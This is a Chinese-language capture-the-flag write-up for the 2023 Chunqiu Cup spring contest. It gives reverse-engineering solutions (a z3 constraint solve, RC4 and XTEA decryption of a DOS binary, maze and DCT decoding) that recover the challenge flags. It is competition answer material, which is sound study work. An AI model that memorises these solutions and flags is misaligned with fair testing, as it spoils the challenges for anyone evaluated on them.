# 2023春秋杯春季赛
**wp by Frankss**  
截个图，到点吃饭力（x  
  


- [2023春秋杯春季赛](#2023春秋杯春季赛)
  - [Re (AK!)](#re-ak)
    - [Emoji Connect](#emoji-connect)
    - [Pytrans （三血）](#pytrans-三血)
    - [OldSymbolicCode](#oldsymboliccode)
    - [BWBA](#bwba)
    - [Poisoned\_tea\_CHELL](#poisoned_tea_chell)
    - [sum （命题）](#sum-命题)
  - [Pwn](#pwn)
    - [easy\_LzhiFTP\_CHELL](#easy_lzhiftp_chell)
    - [babygame](#babygame)
    - [sigin\_shellcode](#sigin_shellcode)
    - [three-body (未解出)](#three-body-未解出)
    - [babyaul   (未解出)](#babyaul---未解出)
    - [p2048 （命题）](#p2048-命题)
  - [Misc](#misc)
    - [58与64 (未解出)](#58与64-未解出)
    - [happy2forensics （未解出）](#happy2forensics-未解出)
    - [sudo](#sudo)
    - [盲人隐藏了起来](#盲人隐藏了起来)
    - [piphack](#piphack)
    - [wordle](#wordle)
  - [Crypyo](#crypyo)
    - [ecdsa (未解出)](#ecdsa-未解出)
    - [Cisticola (未解出)](#cisticola-未解出)
    - [stream (未解出)](#stream-未解出)
    - [checkin](#checkin)
    - [magic\_dlp (未解出)](#magic_dlp-未解出)
    - [backdoor](#backdoor)
  - [Web （要爆0了，太好玩了）](#web-要爆0了太好玩了)
    - [phpstudy (未解出)](#phpstudy-未解出)
    - [easypy](#easypy)
    - [call (未解出)](#call-未解出)
    - [php\_again (未解出)](#php_again-未解出)
    - [ez\_rust](#ez_rust)
    - [qqcms (未解出)](#qqcms-未解出)

## Re (AK!)
出了Re，来学习一下其他师傅们的题

### Emoji Connect
是Excel的插件，开始玩之后会初始化一个48*48的矩阵，每个格子里有一个emoji，然后每次点击两个格子，如果两个格子里的emoji相同，就会消除这两个格子。  
一开始以为是消星星一类的三个格子的消除，但看game的逻辑每次只替换两个，所以确实是连连看。  
然后flag的逻辑就是每次消除的时候减去格子的 行*列，下标是用神奇的方法从unicode转过去的，我这里直接用矩阵里emoji的最小值做下标偏移了  
```python


dat = '''😈	😑	😔	😎	😌	😆	😤	😮	😮	😟	😪	😂	😢	😐	😩	😙	😭	😎	😬	😅	😉	😦	😛	😥	😜	😤	😑	😨	😝	😗	😛	😁	😑	😏	😜	😠	😤	😋	😀	😁	😅	😖	😑	😡	😒	😇	😄	😛
😊	😈	😂	😘	😬	😩	😥	😬	😈	😫	😅	😊	😒	😦	😑	😅	😙	😔	😟	😩	😬	😐	😑	😮	😔	😥	😧	😖	😇	😦	😉	😈	😘	😯	😣	😉	😓	😞	😃	😌	😨	😖	😮	😙	😙	😫	😋	😣
😜	😉	😇	😮	😝	😞	😒	😪	😂	😬	😯	😃	😄	😘	😪	😛	😤	😑	😦	😯	😗	😋	😡	😤	😊	😨	😉	😬	😍	😏	😨	😔	😝	😀	😡	😝	😅	😧	😋	😔	😨	😗	😍	😨	😝	😈	😫	😤
😍	😍	😌	😅	😫	😏	😫	😗	😢	😇	😃	😍	😮	😃	😋	😮	😢	😦	😭	😢	😢	😔	😧	😥	😢	😁	😠	😀	😙	😅	😑	😕	😌	😊	😞	😕	😑	😡	😔	😘	😙	😂	😝	😬	😜	😕	😌	😞
😓	😖	😏	😑	😇	😦	😯	😊	😕	😃	😬	😏	😉	😯	😦	😩	😊	😛	😟	😨	😛	😥	😗	😄	😊	😀	😉	😇	😧	😅	😨	😚	😖	😑	😅	😚	😄	😅	😃	😤	😒	😉	😌	😭	😘	😊	😅	😄
😎	😆	😁	😯	😟	😌	😙	😮	😕	😠	😗	😮	😉	😐	😏	😐	😄	😊	😯	😍	😌	😋	😥	😢	😂	😈	😔	😔	😆	😣	😢	😊	😂	😄	😋	😐	😠	😇	😔	😏	😗	😜	😮	😇	😙	😯	😬	😨
😧	😃	😩	😯	😯	😄	😈	😕	😂	😡	😦	😭	😡	😊	😌	😒	😆	😊	😕	😨	😨	😊	😌	😪	😍	😢	😦	😘	😍	😪	😧	😗	😇	😅	😇	😭	😞	😖	😢	😘	😝	😦	😥	😮	😒	😦	😡	😫
😪	😫	😫	😉	😖	😆	😂	😥	😏	😊	😁	😂	😩	😉	😁	😀	😬	😚	😓	😈	😄	😤	😕	😙	😋	😚	😟	😆	😫	😊	😛	😪	😋	😖	😢	😍	😙	😃	😔	😞	😙	😠	😐	😗	😆	😌	😢	😐
😞	😟	😐	😚	😇	😢	😋	😭	😤	😉	😚	😉	😒	😥	😮	😕	😄	😖	😍	😞	😐	😈	😃	😘	😍	😥	😣	😧	😒	😮	😧	😑	😬	😡	😠	😅	😁	😘	😞	😁	😎	😑	😎	😓	😨	😯	😉	😭
😉	😦	😩	😧	😎	😋	😆	😆	😏	😚	😉	😒	😏	😔	😞	😬	😂	😨	😅	😨	😀	😘	😡	😣	😇	😠	😂	😣	😘	😞	😩	😫	😨	😒	😎	😝	😣	😀	😉	😝	😚	😯	😟	😥	😊	😠	😊	😮
😆	😒	😨	😁	😛	😤	😎	😢	😉	😀	😌	😞	😨	😩	😛	😩	😚	😞	😫	😣	😞	😪	😃	😁	😖	😐	😝	😆	😩	😦	😮	😊	😥	😌	😊	😒	😐	😛	😈	😮	😂	😙	😠	😣	😔	😂	😏	😚
😀	😨	😙	😬	😊	😔	😘	😙	😖	😡	😉	😈	😠	😃	😯	😀	😃	😙	😨	😒	😕	😀	😌	😡	😑	😇	😣	😢	😇	😋	😮	😕	😡	😭	😡	😞	😠	😟	😬	😋	😄	😀	😋	😋	😜	😀	😀	😞
😣	😕	😕	😆	😛	😅	😆	😆	😘	😈	😝	😙	😯	😆	😦	😜	😒	😔	😐	😭	😚	😟	😟	😡	😇	😨	😌	😟	😣	😀	😐	😠	😜	😗	😐	😯	😩	😥	😤	😫	😦	😟	😤	😀	😍	😪	😪	😥
😔	😜	😨	😕	😈	😉	😖	😨	😋	😒	😖	😫	😣	😁	😨	😤	😫	😁	😢	😡	😘	😎	😌	😙	😅	😩	😪	😇	😍	😙	😪	😘	😯	😇	😓	😐	😂	😁	😁	😢	😫	😤	😄	😊	😌	😩	😞	😔
😨	😈	😢	😆	😄	😊	😐	😝	😮	😃	😚	😄	😂	😑	😆	😙	😔	😙	😀	😚	😠	😚	😍	😯	😊	😪	😛	😄	😋	😨	😫	😣	😄	😎	😅	😄	😏	😀	😏	😢	😌	😇	😍	😬	😩	😩	😟	😈
😩	😈	😛	😟	😩	😢	😘	😦	😩	😅	😟	😃	😚	😟	😭	😜	😊	😦	😟	😟	😆	😂	😠	😊	😀	😬	😝	😧	😚	😇	😑	😟	😡	😩	😦	😅	😒	😖	😌	😀	😁	😮	😬	😁	😛	😜	😧	😏
😃	😛	😜	😓	😂	😮	😖	😭	😁	😝	😩	😧	😜	😒	😝	😎	😧	😏	😭	😊	😔	😑	😐	😕	😃	😝	😮	😮	😘	😨	😕	😗	😇	😡	😅	😖	😃	😦	😊	😃	😮	😙	😁	😉	😂	😔	😓	😩
😜	😒	😊	😐	😝	😟	😜	😯	😉	😘	😀	😟	😗	😊	😢	😛	😎	😉	😖	😇	😠	😖	😌	😎	😩	😨	😐	😗	😭	😏	😫	😮	😘	😦	😒	😈	😁	😬	😯	😝	😀	😗	😅	😭	😧	😥	😤	😨
😈	😎	😨	😓	😝	😋	😇	😘	😭	😯	😙	😍	😙	😋	😥	😢	😪	😔	😈	😫	😮	😀	😙	😐	😬	😇	😁	😋	😧	😝	😬	😓	😂	😥	😘	😞	😂	😓	😞	😜	😜	😐	😤	😧	😄	😄	😍	😅
😋	😊	😛	😌	😥	😐	😩	😠	😫	😆	😬	😓	😅	😓	😣	😣	😘	😐	😣	😣	😆	😣	😙	😭	😤	😆	😑	😁	😟	😁	😌	😗	😥	😤	😛	😊	😝	😠	😌	😒	😔	😉	😍	😩	😎	😖	😒	😦
😖	😊	😩	😗	😠	😫	😫	😇	😄	😪	😟	😕	😂	😂	😩	😘	😎	😑	😤	😘	😃	😇	😄	😎	😙	😘	😓	😭	😟	😈	😮	😮	😎	😤	😛	😍	😮	😭	😎	😣	😡	😩	😡	😤	😚	😚	😪	😡
😠	😋	😎	😜	😈	😑	😟	😫	😣	😫	😅	😭	😓	😖	😜	😑	😙	😩	😠	😟	😜	😅	😜	😀	😅	😗	😓	😋	😢	😖	😕	😆	😄	😏	😡	😋	😄	😞	😣	😘	😙	😬	😈	😖	😑	😠	😑	😛
😤	😍	😮	😝	😏	😓	😣	😮	😌	😖	😌	😔	😔	😝	😙	😢	😭	😃	😊	😒	😣	😖	😐	😢	😬	😥	😤	😟	😌	😨	😛	😚	😕	😪	😂	😕	😌	😂	😆	😢	😣	😂	😕	😡	😓	😦	😀	😬
😧	😄	😓	😄	😛	😉	😑	😢	😓	😑	😛	😣	😙	😡	😧	😞	😮	😎	😘	😥	😊	😢	😚	😚	😜	😎	😕	😟	😗	😖	😆	😀	😏	😡	😐	😄	😊	😥	😪	😇	😘	😚	😂	😒	😘	😫	😯	😡
😒	😍	😊	😊	😫	😈	😩	😞	😀	😒	😧	😡	😑	😗	😠	😧	😍	😪	😁	😥	😝	😂	😖	😜	😤	😣	😓	😔	😧	😃	😪	😧	😃	😢	😭	😞	😇	😉	😣	😁	😐	😬	😙	😊	😀	😌	😐	😍
😥	😕	😭	😛	😀	😡	😃	😜	😛	😦	😗	😔	😐	😪	😩	😤	😯	😜	😒	😏	😐	😉	😣	😦	😓	😓	😊	😛	😫	😪	😡	😥	😁	😤	😇	😧	😝	😍	😤	😏	😤	😡	😌	😡	😦	😤	😣	😏
😧	😑	😛	😗	😔	😋	😌	😛	😠	😛	😦	😡	😆	😐	😗	😣	😣	😥	😐	😗	😝	😢	😎	😧	😈	😈	😃	😛	😫	😪	😖	😉	😘	😟	😓	😭	😈	😢	😂	😒	😑	😭	😐	😭	😒	😘	😨	😋
😀	😤	😏	😪	😪	😓	😒	😖	😝	😤	😥	😄	😅	😄	😑	😢	😊	😙	😡	😂	😞	😥	😚	😐	😢	😪	😒	😉	😅	😭	😃	😪	😘	😋	😇	😛	😠	😃	😗	😫	😝	😍	😅	😣	😔	😗	😁	😖
😒	😖	😭	😡	😋	😠	😟	😎	😞	😋	😨	😧	😕	😋	😢	😋	😂	😎	😚	😋	😥	😦	😝	😗	😭	😡	😗	😙	😖	😄	😩	😅	😀	😙	😞	😤	😭	😤	😚	😏	😓	😊	😚	😟	😃	😨	😩	😈
😙	😉	😌	😙	😨	😓	😞	😍	😂	😣	😟	😏	😅	😀	😐	😙	😦	😯	😦	😦	😆	😛	😆	😏	😊	😂	😍	😍	😃	😁	😄	😙	😡	😇	😆	😡	😕	😘	😕	😭	😚	😯	😜	😎	😘	😎	😠	😆
😓	😋	😜	😇	😯	😧	😗	😪	😌	😗	😮	😈	😛	😍	😀	😒	😕	😒	😜	😆	😚	😩	😏	😫	😏	😅	😠	😃	😯	😞	😣	😍	😂	😯	😀	😙	😯	😐	😍	😒	😙	😘	😙	😈	😉	😟	😟	😁
😒	😀	😃	😯	😪	😡	😛	😞	😫	😎	😨	😒	😅	😯	😭	😢	😏	😥	😝	😪	😨	😯	😦	😯	😟	😛	😘	😖	😎	😟	😬	😁	😭	😉	😨	😬	😍	😓	😗	😄	😏	😝	😇	😯	😆	😈	😌	😏
😞	😕	😛	😁	😈	😯	😚	😎	😚	😔	😄	😍	😣	😓	😀	😯	😩	😕	😈	😥	😗	😦	😕	😢	😪	😀	😇	😅	😃	😮	😇	😐	😥	😟	😑	😚	😝	😀	😟	😣	😁	😋	😏	😡	😟	😚	😇	😈
😙	😫	😓	😒	😋	😕	😌	😜	😞	😪	😭	😪	😏	😫	😝	😈	😟	😋	😄	😄	😫	😢	😭	😔	😗	😢	😥	😉	😘	😖	😦	😂	😜	😡	😭	😓	😔	😚	😕	😦	😗	😃	😁	😠	😆	😝	😪	😜
😄	😣	😛	😭	😊	😭	😯	😭	😒	😞	😈	😠	😑	😛	😇	😞	😚	😟	😂	😖	😐	😒	😅	😅	😔	😍	😂	😎	😘	😤	😎	😌	😁	😞	😫	😩	😆	😈	😦	😜	😪	😖	😘	😅	😦	😨	😤	😄
😎	😢	😎	😮	😁	😦	😅	😧	😮	😙	😞	😥	😞	😬	😦	😏	😌	😑	😝	😞	😈	😢	😬	😞	😯	😋	😁	😓	😍	😖	😌	😡	😡	😡	😥	😤	😧	😌	😮	😓	😉	😔	😍	😥	😦	😑	😢	😭
😈	😭	😫	😚	😁	😜	😏	😣	😧	😆	😈	😚	😩	😖	😜	😕	😈	😕	😀	😎	😨	😆	😟	😩	😄	😘	😔	😚	😫	😝	😤	😁	😅	😇	😆	😪	😄	😣	😒	😕	😧	😆	😐	😢	😡	😂	😑	😋
😕	😨	😒	😮	😎	😚	😥	😨	😝	😆	😨	😋	😦	😊	😃	😘	😗	😏	😌	😩	😁	😝	😃	😗	😨	😙	😭	😜	😨	😇	😁	😙	😢	😆	😉	😄	😦	😮	😮	😥	😪	😠	😎	😫	😬	😏	😞	😚
😃	😑	😦	😂	😆	😬	😥	😠	😃	😑	😚	😅	😐	😉	😬	😯	😒	😁	😆	😉	😬	😭	😫	😌	😪	😙	😤	😋	😯	😅	😢	😍	😎	😗	😮	😗	😐	😠	😦	😅	😉	😥	😖	😗	😉	😤	😋	😘
😓	😎	😉	😮	😧	😟	😓	😓	😙	😕	😎	😬	😇	😔	😯	😌	😭	😚	😈	😁	😕	😔	😠	😧	😤	😛	😣	😜	😋	😩	😒	😡	😓	😐	😪	😝	😇	😌	😋	😃	😣	😩	😡	😒	😭	😣	😁	😑
😧	😫	😀	😎	😝	😯	😌	😒	😙	😑	😑	😣	😃	😦	😏	😬	😜	😟	😉	😠	😂	😓	😐	😁	😧	😕	😃	😬	😄	😔	😂	😁	😕	😚	😏	😋	😬	😀	😯	😋	😎	😔	😏	😕	😍	😖	😬	😤
😃	😉	😕	😇	😪	😁	😠	😐	😋	😕	😪	😜	😈	😢	😧	😅	😌	😠	😯	😢	😕	😩	😢	😧	😂	😦	😜	😬	😝	😮	😫	😫	😚	😞	😌	😎	😄	😔	😆	😑	😘	😥	😗	😬	😔	😪	😪	😯
😮	😘	😪	😊	😞	😐	😔	😠	😝	😜	😊	😑	😈	😑	😆	😬	😨	😔	😧	😝	😠	😡	😧	😭	😟	😗	😍	😞	😆	😚	😩	😯	😤	😈	😠	😖	😤	😛	😧	😏	😠	😘	😩	😂	😅	😃	😨	😜
😄	😛	😓	😎	😐	😕	😂	😧	😬	😛	😏	😒	😃	😪	😭	😚	😥	😄	😀	😉	😛	😄	😖	😃	😦	😜	😒	😑	😣	😠	😝	😪	😧	😀	😏	😍	😮	😑	😀	😇	😚	😬	😔	😁	😅	😫	😤	😇
😖	😍	😈	😗	😒	😅	😃	😣	😏	😂	😔	😚	😖	😈	😍	😞	😕	😛	😖	😅	😃	😔	😗	😕	😯	😍	😏	😎	😂	😜	😄	😃	😁	😓	😛	😞	😘	😬	😞	😉	😕	😣	😇	😠	😊	😖	😦	😯
😏	😓	😑	😌	😪	😆	😖	😬	😘	😮	😞	😖	😅	😟	😏	😉	😇	😄	😑	😝	😑	😓	😩	😥	😫	😓	😛	😝	😓	😍	😋	😜	😜	😀	😥	😔	😤	😟	😗	😧	😠	😝	😉	😩	😗	😂	😤	😑
😮	😀	😫	😗	😓	😊	😩	😠	😦	😧	😜	😥	😟	😇	😭	😣	😍	😂	😫	😔	😎	😍	😁	😤	😛	😗	😠	😛	😐	😃	😧	😬	😗	😯	😥	😈	😨	😓	😩	😫	😌	😬	😂	😎	😓	😧	😀	😧
😭	😄	😐	😠	😆	😜	😇	😪	😗	😄	😫	😤	😀	😈	😍	😬	😆	😚	😡	😞	😝	😍	😆	😜	😉	😋	😧	😢	😥	😮	😠	😮	😉	😌	😃	😞	😨	😔	😓	😠	😫	😐	😡	😎	😘	😇	😏	😥'''

matrix = [row.split('\t') for row in dat.split('\n')]

WIDTH = len(matrix[0])
HEIGHT = len(matrix)
off = 128512
flag = [25588, 31114, 28727, 26722, 24948, 25135, 25480, 29029, 23025, 25775, 15411, 25423, 25202, 30031, 27380,
        30734, 25054, 25109, 20741, 28568, 28802, 24591, 26063, 30940, 30375, 19411, 29573, 20845, 27232, 26743,
        25779, 24986, 31498, 30978, 22945, 26563, 35012, 29994, 27016, 29535, 21342, 26573, 27569, 25408, 31567,
        25503, 21385, 27207]
flag2 = [0 for _ in range(len(flag))]
EMPTY = '💥'


def find_possible():
    for y in range(HEIGHT):
        for x in range(WIDTH):
            flag[ord(matrix[y][x]) - off] -= y * x


find_possible()


print(flag)
print(''.join([chr(f) for f in flag]))
```
跑完就合理的打印出flag了

### Pytrans （三血）
pyinstxtractor 可以把CDLL加载的库拿出来，密码的约束放z3可以跑出来  
```python

from z3 import *


flag = [BitVec(f'flag_{i}', 32) for i in range(10)]

s = Solver()

s.add(-27 * flag[7] + -11 * flag[6] + 16 * flag[5] + flag[0] + 2 * flag[1] - flag[2] + 8 * flag[3] - 14 * flag[4] + 26 *
      flag[8] + 17 * flag[9] == 14462)
s.add(-30 * flag[8] + 13 * flag[5] + flag[3] + flag[1] + 2 * flag[0] - 15 * flag[4] - 24 * flag[6] + 16 * flag[7] + 36 *
      flag[9] == -2591)
s.add(16 * flag[6] + -21 * flag[5] + 7 * flag[3] + 3 * flag[1] - flag[0] - flag[2] + 12 * flag[4] - 23 * flag[7] + 25 *
      flag[8] - 18 * flag[9] == 2517)
s.add(-6 * flag[6] + 2 * flag[2] - flag[1] + 2 * flag[5] + 9 * flag[7] + 2 * flag[8] - 5 * flag[9] == 203)
s.add(-5 * flag[8] + 6 * flag[7] + 3 * flag[1] - flag[3] - flag[5] + flag[6] + 5 * flag[9] == 3547)
s.add(-9 * flag[8] + flag[4] + flag[2] + flag[7] - 5 * flag[9] == -7609)
s.add(2 * flag[5] + -flag[3] - flag[4] + flag[8] + 6 * flag[9] == 4884)
s.add(flag[6] - flag[7] + 2 * flag[8] == 1618)
s.add(flag[4] - flag[6] + 2 * flag[9] == 1096)
s.add(flag[8] + flag[4] + flag[3] + flag[2] + flag[1] + flag[0] - flag[5] - flag[6] - flag[7] - flag[9] == 711)
s.add(2 * (2 * flag[4] + flag[3]) + 5 * flag[5] == 7151)

if s.check() == sat:
    m = s.model()
    print(' '.join([str(m[flag[i]]) for i in range(10)]))

from ctypes import *

dll = CDLL("./mylib.so")
f = [511, 112, 821, 949, 517, 637, 897, 575, 648, 738]
int_arr10 = ctypes.c_int*10

int_arr = int_arr10()
for i in range(10):
    int_arr[i]=f[i]


result = dll.check(int_arr)
# result is ctypes char*, print it
print(ctypes.string_at(result))
```

结果是base64编码的marshal字节码，dump到pyc再pycdc逆一下，发现迷宫是初始值的二进制   
堵住死路，跑一下  
```python
footprint = '3qzqns4hj6\neeaxc!4a-%\nd735_@4l6g\nf1gd1v7hdm\n1+$-953}81\na^21vbnm3!\n-#*f-e1d8_\n2ty9uipok-\n6r1802f7d1\n9wez1c-f{0'
xx0000 = []
footprintlist = footprint.split('\n')
for i in range(len(footprintlist)):
    xx0000.append(list(footprintlist[i]))


def xxxx000x0(num):
    xx000000 = format(num, '010b')
    return xx000000


oxooxxxxxoooo = []
xx0000000 = [511, 112, 821, 949, 517, 637, 897, 575, 648, 738]
if len(xx0000000) == 10:

    maze = [[0, 1, 1, 1, 1, 1, 1, 1, 1, 1],
            [0, 0, 0, 1, 1, 1, 0, 0, 0, 0],
            [1, 1, 0, 0, 1, 1, 0, 1, 0, 1],
            [1, 1, 1, 0, 1, 1, 0, 1, 0, 1],
            [1, 0, 1, 0, 0, 0, 0, 1, 0, 1],
            [1, 0, 0, 1, 1, 1, 1, 1, 0, 1],
            [1, 1, 1, 0, 0, 0, 0, 0, 0, 1],
            [1, 0, 0, 0, 1, 1, 1, 1, 1, 1],
            [1, 0, 1, 0, 0, 0, 1, 0, 0, 0],
            [1, 0, 1, 1, 1, 0, 0, 0, 1, 0]]


    def findpath(x, y):
        assert maze[x][y] == 0
        print(xx0000[x][y], end='')
        maze[x][y] = 1
        if x == 9 and y == 9:
            return [(x, y)]
        if x < 9 and maze[x + 1][y] == 0:
            return findpath(x + 1, y)
        if y > 0 and maze[x][y - 1] == 0:
            return findpath(x, y - 1)
        if x > 0 and maze[x - 1][y] == 0:
            return findpath(x - 1, y)
        if y < 9 and maze[x][y + 1] == 0:
            return findpath(x, y + 1)
        return None


    findpath(0, 0)
```

### OldSymbolicCode
炫酷的dos程序，前面的内容放github可以搜出编码器，写一个解码的：  
```python
def decode(raw):
    raw = raw[4:]
    res = []
    for i in range(0, len(raw), 2):
        first = ord(raw[i])
        if first == 0x40:
            first = 0
        elif first == 0x5f:
            first = 0xf
        else:
            first &= 0xf
        second = ord(raw[i + 1])
        if second == 0x40:
            second = 0
        elif second == 0x5f:
            second = 0xf
        else:
            second &= 0xf
        res.append(first | (second << 4))
    return res
```
去掉前边装载的内容就是入口函数  
解密是一个RC4一个XTEA  
RC4的密钥是 `"0ldComputerSecret"`  
然后XTEA密钥装载顺序有点奇怪，DOS的端序也不是很确定，x-ray不能逆16位的汇编，ghidra和snow可以但也不是很清楚，用 DOSBox-x 动态模拟一下：  
  
可以看到key是 "!Nepnep!"  
解密脚本：  
```c
#include <stdio.h>
#include <stdint.h>

#include <string.h>

#define uint32_t uint16_t
void encrypt(unsigned int num_rounds, uint32_t v[2], uint32_t const key[4]) {
	unsigned int i;
	uint32_t v0 = v[0], v1 = v[1], sum = 0, delta = 40501;
	for (i = 0; i < num_rounds; i++) {
		v0 += (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + key[sum & 3]);
		sum += delta;
		v1 += (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + key[(sum >> 11) & 3]);
	}
	v[0] = v0; v[1] = v1;
}


void decrypt(unsigned int num_rounds, uint32_t v[2], uint32_t const key[5]) {
	unsigned int i;
	uint32_t v0 = v[0], v1 = v[1], delta = 0x9E35, sum = 0;
	for (i = 0; i < num_rounds; ++i) {
		sum += delta;
	}
	for (i = 0; i < num_rounds; ++i) {
		v1 -= (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + key[(sum >> 11) & 3]);
		sum -= delta;
		v0 -= (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + key[sum & 3]);
	}
	v[0] = v0; v[1] = v1;
}

void RC4_enc_dec(unsigned char data[], unsigned char key[]) {
	unsigned char sbox[256] = { 0 };
	unsigned int k, i = 0, j = 0, t;
	for (unsigned int i = 0; i < 256; i++)
		sbox[i] = i;
	unsigned int keyLen = strlen((char*)key);
	unsigned char Ttable[256] = { 0 };
	for (int i = 0; i < 256; i++)
		Ttable[i] = key[i % keyLen];
	for (uint32_t j = 0, i = 0; i < 256; i++)
	{
		j = (j + sbox[i] + Ttable[i]) % 256;	
		unsigned char tmp = sbox[i];
		sbox[i] = sbox[j];
		sbox[j] = tmp;
	}
	unsigned int dataLen = 36;
	for (unsigned int h = 0; h < dataLen; h++)
	{
		i = (i + 1) % 256;
		j = (j + sbox[i]) % 256;

		unsigned char tmp = sbox[i];
		sbox[i] = sbox[j];
		sbox[j] = tmp;
		t = (sbox[i] + sbox[j]) % 256;
		k = sbox[t];	
		data[h] ^= k;
	}
}

int try1(uint32_t* v, uint32_t const k[5]) {
	int n = 18;
	unsigned int r = 0x20;
	for (int i = 0; i < n; i += 2) {
		decrypt(r, &(v[i]), k);
	}
	RC4_enc_dec((unsigned char*)v, (unsigned char*)"0ldComputerSecret");
	for (int i = 0; i < n*2; i++) {
		printf("%c", ((unsigned char*)v)[i]);
	}
	printf("\n");
	return 0;
}

int main() {
	uint32_t v[] = {	
	  0xE3D8, 0x97AD, 0x0DB4, 0xA0A5,
	  0x63E3, 0x439C, 0x9BC9, 0x2685,
	  0x2DEA, 0xDF95, 0xB288, 0x6F18,
	  0x80F3, 0xD2CA, 0xFF0D, 0x5B9B,
	  0x8B65, 0xEBAF
	};
	try1(v, (uint16_t*)"!Nepnep!");
}
```

### BWBA
鉴定为 DCT：
  
逆变换一下：  
```python
import cv2

import numpy as np

dct_arr = [370.75, 234.362, -58.0834, 59.8212, 88.8221, -30.2406, 21.8316, 49.9781, -33.5259, 2.69675, 43.5386,
           -30.2925, -28.0754, 27.593, -2.53962, -27.1883, -5.60777, -0.263937, 6.80326, 8.03022, -6.34681, -0.89506,
           -6.80685, -13.6088, 27.0958, 29.8439, -21.7688, -20.6925, -13.2155, -37.0994, 2.23679, 37.6699, -3.5,
           9.85188, 57.2806, 13.5715, -20.7184, 8.6816, 3.59369, -4.5302, 4.22203, -28.8166, -23.695, 31.2268, 6.58823,
           -39.9966, -20.7877, -19.7624, -22.031, 16.3285, 2.07557, -26.2521, 16.1914, 18.3976, -26.9295, 3.03769,
           41.0412, 20.2598, 14.991, 6.99392, -22.3752, -7.24466, 8.96299, -10.487]
# init numpy array
dct_arr = np.array(dct_arr)
# get idct of dct_arr
idct_arr = cv2.idct(dct_arr)
# cast to normal array
idct_arr = idct_arr.tolist()
# print idct_arr as ascii, round to nearest integer
print(''.join([chr(int(round(x[0]))) for x in idct_arr]))
```

### Poisoned_tea_CHELL
VMP!不是VMP是魔改的UPX，下个最新版的然后把VMP都改成UPX就可以脱  
然后是小改的XTEA，改一下解就可以  
（脚本被上边那个RC4+XTEA的覆盖了，没存）

### sum （命题）
是Frank出的签到题，这里贴一下出题时候的wp 

题目编译选项Os，比O3轻松很多  
